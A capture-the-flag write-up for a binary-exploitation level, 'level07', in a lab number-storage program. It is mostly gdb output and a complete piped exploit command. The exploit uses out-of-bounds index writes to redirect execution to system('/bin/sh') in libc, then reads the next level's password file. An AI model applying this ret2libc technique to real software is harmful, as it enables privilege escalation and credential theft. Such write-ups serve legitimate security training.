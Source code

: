 # Level 07

## the stack

![The stack](resources/the_stack_override07.jpg)

## the method

We have a way to overwrite the memory.

let's try to overwrite eip

no shellcode because env is set to 0 at begging

(gdb) p/c 1073741938
$1 = 114 'r'
(gdb) p/c 1073741939
$2 = 115 's'
(gdb) p/c 1073741940
$3 = 116 't'
(gdb)

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find system, +9999999, "/bin/sh"
0xf7f897ec

1073741938 => 4159090384 (0xf7e6aed0)
1073741939 => 4159040368 (0xf7e5eb70)
116 => 4160264172 (0xf7f897ec)

```sh
$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 1073741939
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
```

## the hack

final command:

```sh
$ (echo store; echo 4159090384; echo 1073741938 ; echo store; echo 4159040368; echo 1073741939 ; echo store; echo 4160264172; echo 116 ; echo quit; cat) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully

whoami
level08

cat /home/users/level08/.pass
```
